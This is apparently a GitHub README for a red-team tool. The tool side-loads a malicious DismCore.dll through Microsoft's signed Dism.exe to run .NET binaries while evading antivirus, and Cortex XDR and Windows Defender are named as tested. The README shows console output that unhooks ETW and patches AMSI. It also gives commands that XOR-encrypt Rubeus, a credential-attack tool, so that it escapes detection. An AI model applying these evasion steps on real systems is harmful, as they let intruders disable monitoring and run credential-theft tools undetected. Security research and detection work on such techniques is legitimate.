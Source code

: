 # Dism DLL Side Loader
Combine Microsoft signed Dism and dll side load netloader to load c# or .NET binary to bypass AV. 
Tested on 22-10-2022 with Cortex XDR and Windows Defender.

## Usage
Compile the dll library, change name of dll to "DismCore.dll", put Dism.exe and DismCore.dll in the same directory and run.

```
.\Dism.exe
[+] Successfully unhooked ETW!
[+] Successfully patched AMSI!
==>Path: D:\tools\xor_rubeus
==>key: P
==>args:
[+] Decrypting XOR encrypted binary using key 'P'
[+] URL/PATH : D:\tools\AV bypass\Netloader_orginal\xor_ru Arguments :

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0
```
## Encrypt XOR binary
use xor&#46;py
### Encryption
```
cat Rubeus.exe | python xor.py "P" > xor_ru
```
### Decryption
```
cat xor_ru | python xor.py "P" > Rubeus.exe
```
## TODO
Add AES encryption

## Credit
May need to run DllExport.bat before compile.
https://jackkuo.org/post/export_unmanaged_dll_from_csharp/
https://github.com/3F/DllExport

Netloader
https://github.com/Flangvik/NetLoader

xor&#46;py
https://github.com/ShawnDEvans/xorpy

Thank you darklab people. Especially Erwin and Dennis ^^
